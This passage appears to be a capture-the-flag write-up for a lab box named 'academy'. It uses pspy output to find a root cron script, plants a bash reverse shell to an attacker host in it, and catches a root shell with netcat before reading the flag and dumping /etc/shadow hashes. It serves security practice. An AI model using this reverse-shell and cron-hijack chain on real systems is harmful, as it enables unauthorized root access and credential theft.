2023/10/14 17:19:33 CMD: UID=0     PID=266    | 
2023/10/14 17:19:33 CMD: UID=0     PID=239    | 
2023/10/14 17:19:33 CMD: UID=0     PID=238    | 
2023/10/14 17:19:33 CMD: UID=0     PID=236    | 
2023/10/14 17:19:33 CMD: UID=0     PID=235    | 
2023/10/14 17:19:33 CMD: UID=0     PID=233    | 
2023/10/14 17:19:33 CMD: UID=0     PID=232    | 
2023/10/14 17:19:33 CMD: UID=0     PID=230    | 
2023/10/14 17:19:33 CMD: UID=0     PID=229    | 
2023/10/14 17:19:33 CMD: UID=0     PID=227    | 
2023/10/14 17:19:33 CMD: UID=0     PID=226    | 
2023/10/14 17:19:33 CMD: UID=0     PID=224    | 
2023/10/14 17:19:33 CMD: UID=0     PID=223    | 
2023/10/14 17:19:33 CMD: UID=0     PID=221    | 
2023/10/14 17:19:33 CMD: UID=0     PID=220    | 
2023/10/14 17:19:33 CMD: UID=0     PID=219    | 
2023/10/14 17:19:33 CMD: UID=0     PID=217    | 
2023/10/14 17:19:33 CMD: UID=0     PID=215    | 
2023/10/14 17:19:33 CMD: UID=0     PID=213    | 
2023/10/14 17:19:33 CMD: UID=0     PID=212    | 
2023/10/14 17:19:33 CMD: UID=0     PID=210    | 
2023/10/14 17:19:33 CMD: UID=0     PID=209    | 
2023/10/14 17:19:33 CMD: UID=0     PID=207    | 
2023/10/14 17:19:33 CMD: UID=0     PID=205    | 
2023/10/14 17:19:33 CMD: UID=0     PID=204    | 
2023/10/14 17:19:33 CMD: UID=0     PID=202    | 
2023/10/14 17:19:33 CMD: UID=0     PID=200    | 
2023/10/14 17:19:33 CMD: UID=0     PID=199    | 
2023/10/14 17:19:33 CMD: UID=0     PID=197    | 
2023/10/14 17:19:33 CMD: UID=0     PID=195    | 
2023/10/14 17:19:33 CMD: UID=0     PID=193    | 
2023/10/14 17:19:33 CMD: UID=0     PID=191    | 
2023/10/14 17:19:33 CMD: UID=0     PID=190    | 
2023/10/14 17:19:33 CMD: UID=0     PID=188    | 
2023/10/14 17:19:33 CMD: UID=0     PID=186    | 
2023/10/14 17:19:33 CMD: UID=0     PID=185    | 
2023/10/14 17:19:33 CMD: UID=0     PID=184    | 
2023/10/14 17:19:33 CMD: UID=0     PID=182    | 
2023/10/14 17:19:33 CMD: UID=0     PID=180    | 
2023/10/14 17:19:33 CMD: UID=0     PID=178    | 
2023/10/14 17:19:33 CMD: UID=0     PID=177    | 
2023/10/14 17:19:33 CMD: UID=0     PID=175    | 
2023/10/14 17:19:33 CMD: UID=0     PID=173    | 
2023/10/14 17:19:33 CMD: UID=0     PID=171    | 
2023/10/14 17:19:33 CMD: UID=0     PID=169    | 
2023/10/14 17:19:33 CMD: UID=0     PID=167    | 
2023/10/14 17:19:33 CMD: UID=0     PID=166    | 
2023/10/14 17:19:33 CMD: UID=0     PID=164    | 
2023/10/14 17:19:33 CMD: UID=0     PID=163    | 
2023/10/14 17:19:33 CMD: UID=0     PID=161    | 
2023/10/14 17:19:33 CMD: UID=0     PID=160    | 
2023/10/14 17:19:33 CMD: UID=0     PID=159    | 
2023/10/14 17:19:33 CMD: UID=0     PID=157    | 
2023/10/14 17:19:33 CMD: UID=0     PID=155    | 
2023/10/14 17:19:33 CMD: UID=0     PID=153    | 
2023/10/14 17:19:33 CMD: UID=0     PID=151    | 
2023/10/14 17:19:33 CMD: UID=0     PID=150    | 
2023/10/14 17:19:33 CMD: UID=0     PID=148    | 
2023/10/14 17:19:33 CMD: UID=0     PID=147    | 
2023/10/14 17:19:33 CMD: UID=0     PID=146    | 
2023/10/14 17:19:33 CMD: UID=0     PID=145    | 
2023/10/14 17:19:33 CMD: UID=0     PID=132    | 
2023/10/14 17:19:33 CMD: UID=0     PID=131    | 
2023/10/14 17:19:33 CMD: UID=0     PID=130    | 
2023/10/14 17:19:33 CMD: UID=0     PID=129    | 
2023/10/14 17:19:33 CMD: UID=0     PID=127    | 
2023/10/14 17:19:33 CMD: UID=0     PID=91     | 
2023/10/14 17:19:33 CMD: UID=0     PID=81     | 
2023/10/14 17:19:33 CMD: UID=0     PID=80     | 
2023/10/14 17:19:33 CMD: UID=0     PID=79     | 
2023/10/14 17:19:33 CMD: UID=0     PID=78     | 
2023/10/14 17:19:33 CMD: UID=0     PID=77     | 
2023/10/14 17:19:33 CMD: UID=0     PID=76     | 
2023/10/14 17:19:33 CMD: UID=0     PID=75     | 
2023/10/14 17:19:33 CMD: UID=0     PID=74     | 
2023/10/14 17:19:33 CMD: UID=0     PID=73     | 
2023/10/14 17:19:33 CMD: UID=0     PID=72     | 
2023/10/14 17:19:33 CMD: UID=0     PID=71     | 
2023/10/14 17:19:33 CMD: UID=0     PID=70     | 
2023/10/14 17:19:33 CMD: UID=0     PID=69     | 
2023/10/14 17:19:33 CMD: UID=0     PID=68     | 
2023/10/14 17:19:33 CMD: UID=0     PID=67     | 
2023/10/14 17:19:33 CMD: UID=0     PID=66     | 
2023/10/14 17:19:33 CMD: UID=0     PID=65     | 
2023/10/14 17:19:33 CMD: UID=0     PID=64     | 
2023/10/14 17:19:33 CMD: UID=0     PID=63     | 
2023/10/14 17:19:33 CMD: UID=0     PID=62     | 
2023/10/14 17:19:33 CMD: UID=0     PID=61     | 
2023/10/14 17:19:33 CMD: UID=0     PID=60     | 
2023/10/14 17:19:33 CMD: UID=0     PID=59     | 
2023/10/14 17:19:33 CMD: UID=0     PID=58     | 
2023/10/14 17:19:33 CMD: UID=0     PID=57     | 
2023/10/14 17:19:33 CMD: UID=0     PID=56     | 
2023/10/14 17:19:33 CMD: UID=0     PID=55     | 
2023/10/14 17:19:33 CMD: UID=0     PID=54     | 
2023/10/14 17:19:33 CMD: UID=0     PID=53     | 
2023/10/14 17:19:33 CMD: UID=0     PID=52     | 
2023/10/14 17:19:33 CMD: UID=0     PID=51     | 
2023/10/14 17:19:33 CMD: UID=0     PID=50     | 
2023/10/14 17:19:33 CMD: UID=0     PID=49     | 
2023/10/14 17:19:33 CMD: UID=0     PID=48     | 
2023/10/14 17:19:33 CMD: UID=0     PID=30     | 
2023/10/14 17:19:33 CMD: UID=0     PID=29     | 
2023/10/14 17:19:33 CMD: UID=0     PID=28     | 
2023/10/14 17:19:33 CMD: UID=0     PID=27     | 
2023/10/14 17:19:33 CMD: UID=0     PID=26     | 
2023/10/14 17:19:33 CMD: UID=0     PID=25     | 
2023/10/14 17:19:33 CMD: UID=0     PID=24     | 
2023/10/14 17:19:33 CMD: UID=0     PID=23     | 
2023/10/14 17:19:33 CMD: UID=0     PID=22     | 
2023/10/14 17:19:33 CMD: UID=0     PID=21     | 
2023/10/14 17:19:33 CMD: UID=0     PID=20     | 
2023/10/14 17:19:33 CMD: UID=0     PID=19     | 
2023/10/14 17:19:33 CMD: UID=0     PID=18     | 
2023/10/14 17:19:33 CMD: UID=0     PID=17     | 
2023/10/14 17:19:33 CMD: UID=0     PID=16     | 
2023/10/14 17:19:33 CMD: UID=0     PID=15     | 
2023/10/14 17:19:33 CMD: UID=0     PID=14     | 
2023/10/14 17:19:33 CMD: UID=0     PID=13     | 
2023/10/14 17:19:33 CMD: UID=0     PID=12     | 
2023/10/14 17:19:33 CMD: UID=0     PID=11     | 
2023/10/14 17:19:33 CMD: UID=0     PID=10     | 
2023/10/14 17:19:33 CMD: UID=0     PID=9      | 
2023/10/14 17:19:33 CMD: UID=0     PID=8      | 
2023/10/14 17:19:33 CMD: UID=0     PID=6      | 
2023/10/14 17:19:33 CMD: UID=0     PID=4      | 
2023/10/14 17:19:33 CMD: UID=0     PID=3      | 
2023/10/14 17:19:33 CMD: UID=0     PID=2      | 
2023/10/14 17:19:33 CMD: UID=0     PID=1      | /sbin/init 
2023/10/14 17:20:01 CMD: UID=0     PID=3552   | /usr/sbin/CRON -f 
2023/10/14 17:20:01 CMD: UID=0     PID=3553   | /usr/sbin/CRON -f 
2023/10/14 17:20:01 CMD: UID=0     PID=3554   | /bin/sh -c /home/grimmie/backup.sh 
2023/10/14 17:20:01 CMD: UID=0     PID=3555   | /bin/bash /home/grimmie/backup.sh 
2023/10/14 17:20:01 CMD: UID=???   PID=3556   | ???
2023/10/14 17:21:01 CMD: UID=0     PID=3558   | /usr/sbin/cron -f 
2023/10/14 17:21:01 CMD: UID=0     PID=3559   | /usr/sbin/CRON -f 
2023/10/14 17:21:01 CMD: UID=0     PID=3560   | /bin/sh -c /home/grimmie/backup.sh 
2023/10/14 17:21:01 CMD: UID=0     PID=3561   | /bin/bash /home/grimmie/backup.sh 
2023/10/14 17:21:01 CMD: UID=0     PID=3562   | /bin/bash /home/grimmie/backup.sh 
2023/10/14 17:21:01 CMD: UID=0     PID=3563   | /bin/bash /home/grimmie/backup.sh 
2023/10/14 17:22:01 CMD: UID=0     PID=3564   | /usr/sbin/CRON -f 
2023/10/14 17:22:01 CMD: UID=0     PID=3565   | /usr/sbin/CRON -f 
2023/10/14 17:22:01 CMD: UID=0     PID=3566   | /bin/sh -c /home/grimmie/backup.sh 
2023/10/14 17:22:01 CMD: UID=0     PID=3567   | /bin/bash /home/grimmie/backup.sh 
2023/10/14 17:22:01 CMD: UID=0     PID=3568   | /bin/bash /home/grimmie/backup.sh 
2023/10/14 17:22:01 CMD: UID=0     PID=3569   | /bin/bash /home/grimmie/backup.sh 
2023/10/14 17:23:01 CMD: UID=0     PID=3570   | /usr/sbin/CRON -f 
2023/10/14 17:23:01 CMD: UID=0     PID=3571   | /usr/sbin/CRON -f 
2023/10/14 17:23:01 CMD: UID=0     PID=3572   | /bin/sh -c /home/grimmie/backup.sh 
2023/10/14 17:23:01 CMD: UID=0     PID=3573   | /bin/bash /home/grimmie/backup.sh 
2023/10/14 17:23:01 CMD: UID=0     PID=3574   | /bin/bash /home/grimmie/backup.sh 
2023/10/14 17:23:01 CMD: UID=0     PID=3575   | /bin/bash /home/grimmie/backup.sh 
^Z
[1]+  Stopped                 ./pspy64
grimmie@academy:~$ ls
backup.sh  pspy64
grimmie@academy:~$ nano backup.sh 
grimmie@academy:~$ ./backup.sh
~~~

```bash -i >& /dev/tcp/192.168.197.148/8081 0>&1```

# rooot
~~~
┌──(alpha㉿sploit)-[~]
└─$ nc -nlvp 8081
listening on [any] 8081 ...
connect to [192.168.197.148] from (UNKNOWN) [192.168.197.130] 60390
bash: cannot set terminal process group (3594): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~# ls
ls
flag.txt
root@academy:~# fla
fla
bash: fla: command not found
root@academy:~# cat flag.txt
cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !
root@academy:~# cat *.txt
cat *.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !
root@academy:~#
~~~
# shadow
~~~
┌──(alpha㉿sploit)-[~]
└─$ nc -nlvp 8081
listening on [any] 8081 ...
connect to [192.168.197.148] from (UNKNOWN) [192.168.197.130] 60484
bash: cannot set terminal process group (4008): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~# ls
ls
flag.txt
root@academy:~# cat /etc/shadow
cat /etc/shadow
root:$6$ahtry9roVl5oY1fo$V87.ZOyfRA9cGeRawFky4jnS03RJeC6xqEYM5RmSzMABjzYtvAPiZtp0eRwdyj3qUoPhA2ZYD40h/nC6G0PnB.:18776:0:99999:7:::
daemon:*:18776:0:99999:7:::
bin:*:18776:0:99999:7:::
sys:*:18776:0:99999:7:::
sync:*:18776:0:99999:7:::
games:*:18776:0:99999:7:::
man:*:18776:0:99999:7:::
lp:*:18776:0:99999:7:::
mail:*:18776:0:99999:7:::
news:*:18776:0:99999:7:::
uucp:*:18776:0:99999:7:::
proxy:*:18776:0:99999:7:::
www-data:*:18776:0:99999:7:::
backup:*:18776:0:99999:7:::
list:*:18776:0:99999:7:::
irc:*:18776:0:99999:7:::
gnats:*:18776:0:99999:7:::
nobody:*:18776:0:99999:7:::
_apt:*:18776:0:99999:7:::
systemd-timesync:*:18776:0:99999:7:::
systemd-network:*:18776:0:99999:7:::
systemd-resolve:*:18776:0:99999:7:::
messagebus:*:18776:0:99999:7:::
sshd:*:18776:0:99999:7:::
systemd-coredump:!!:18776::::::
mysql:!:18776:0:99999:7:::
ftp:*:18776:0:99999:7:::
grimmie:$6$.akwBJJaprsakFyT$3CsKBH01MHxmKvYVrGBdbQ6HzDdeDb0lGNYausXpvTldSz/t20Lr2SFgr.KRj1YaJa4TE2oP0q0ovfIk0FZdh0:18777:0:99999:7:::
root@academy:~#
~~~
## refrence
[hashcat-crack-md5-hashes](https://www.4armed.com/blog/hashcat-crack-md5-hashes/)
[phpreverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
https://github.com/DominicBreuker/pspy

[Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
